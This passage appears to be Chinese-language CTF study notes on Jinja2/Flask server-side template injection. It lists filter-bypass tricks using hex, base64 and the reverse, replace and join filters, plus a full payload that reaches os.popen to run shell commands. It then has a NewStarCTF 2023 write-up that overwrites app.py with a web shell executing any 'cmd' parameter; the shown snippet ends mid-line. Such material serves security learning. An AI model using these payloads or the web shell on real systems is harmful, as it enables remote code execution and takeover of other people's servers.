 ##### 4、编码绕过
```php
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
对于python2的话，还可以利用base64进行绕过
"__class__"==("X19jbGFzc19f").decode("base64")
```

##### 5、过滤器绕过（reverse，replace，join）
**过滤器reverse**

```php
{{()[‘__class__’]}}等价于{%set a=”__ssalc__”|reverse%}{{()[a]}}
```

payload可以这么构造：

```php
{%set a=”__ssalc__”|reverse%}{%set b="__esab__"|reverse%}{%set c=”__sessalcbus__”|reverse%}{%set d="__ tini__"|reverse%}{%set e=”__slabolg__”|reverse%}{%set f=”nepop”|reverse%}{{""[a][b][c]()[199][d][e][‘os’][f](‘ls’)[‘read’]()}}
```

**过滤器replace**

```php
{{()[‘__class__’]}}等价于{%set a=”__claee__”|replace("ee","ss")%}{{()[a]}}
```

**过滤器join**

```php
{%set a=dict(__cla=a,ss__=a)|join%}{{()[a]}}

(%set a=[‘__cla’,’ss__’]|join%}{{()[a]}}

```

# 做题WP
## <font style="color:rgb(33, 37, 41);">[NewStarCTF 2023 公开赛道]flask disk</font>
打开靶机发现存在三个页面

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737870762620-2c6e8666-fd53-4698-b122-6190e0536f04.png)

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737870788926-12d4c5ca-2efe-4b03-86a8-d57c3557f19d.png)

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737870802218-b29bfb8c-7744-41aa-94ae-699e02a0b52b.png)

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737870812033-9b410cb0-7a9d-41ea-a2ce-46bc56f4ae4b.png)

访问admin manage发现要输入pin码，说明flask开启了debug模式。flask开启了debug模式下，app.py源文件被修改后会立刻加载。所以只需要上传一个能rce的app.py文件把原来的覆盖，就可以了

```php
from flask import Flask, request
import os
app = Flask(__name__)
@app.route('/')
def index():
    try:
        m = request.args.get('cmd')
        d = os.popen(m).read()
        return d
    except:
        pass
    return "1"
if __name__ == '__main__':
```